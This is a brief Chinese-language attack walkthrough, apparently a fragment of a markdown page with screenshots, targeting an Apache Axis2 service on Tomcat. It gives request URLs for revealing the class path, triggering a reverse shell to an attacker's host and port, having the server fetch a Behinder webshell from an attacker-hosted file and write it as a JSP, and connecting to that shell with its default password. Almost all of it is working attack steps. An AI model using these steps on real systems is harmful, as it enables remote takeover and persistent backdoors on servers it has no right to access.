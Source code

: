 ![image-20220910133003379](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910133003379.png)

查看class的路径 , 方便文件上传

```
http://ip:8080/services/config/getClassPath
```

![image-20220910133125782](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910133125782.png)

反弹shell

```
http://ip:8080/services/config/shell?host=ip&port=5656
```

写入冰蝎马

```
http://ip:8080/services/config/download?url=http://ip:8000/mm.txt&path=C:/apache-tomcat-7.0.57/webapps1/axis2/jkl.jsp
```

冰蝎连接

```
http://ip:8080/axis2/jkl.jsp
rebeyond
```







